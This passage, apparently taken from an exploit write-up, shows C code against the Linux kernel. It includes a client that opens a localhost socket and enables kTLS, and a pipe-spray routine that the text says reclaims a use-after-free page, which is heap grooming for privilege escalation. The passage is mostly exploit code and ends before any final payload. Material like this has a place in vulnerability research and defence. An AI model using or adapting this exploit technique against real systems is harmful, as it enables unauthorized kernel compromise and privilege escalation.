 ```c
    exit(0);
}

void run_client() {
    sleep(2);

    int sockfd;
    struct sockaddr_in server_addr;

    if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
        perror("socket");
        exit(1);
    }

    memset(&server_addr, 0, sizeof(server_addr));
    server_addr.sin_family = AF_INET;
    server_addr.sin_port = htons(PORT);
    inet_pton(AF_INET, "127.0.0.1", &server_addr.sin_addr);

    if (connect(sockfd, (struct sockaddr *)&server_addr, sizeof(server_addr)) < 0) {
        perror("connect");
        close(sockfd);
        exit(1);
    }

    if (setup_ktls(sockfd, 1) < 0) {
        close(sockfd);
        exit(1);
    }

    char buf[0x400];

    if (send(sockfd, buf, sizeof(buf), 0) < 0) {
        perror("sendmsg");
    } else {
    }

}
```

Spray pages via the pipe to reclaim the UAF page:

```c
void spray_pipe() {
    char buf[0x1000];
    memset(buf, 'C', sizeof(buf));

    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        write(pipe_fd[i][1], buf, sizeof(buf));
        usleep(100);
    }
}
pin_cpu(1);
spray_pipe();
```
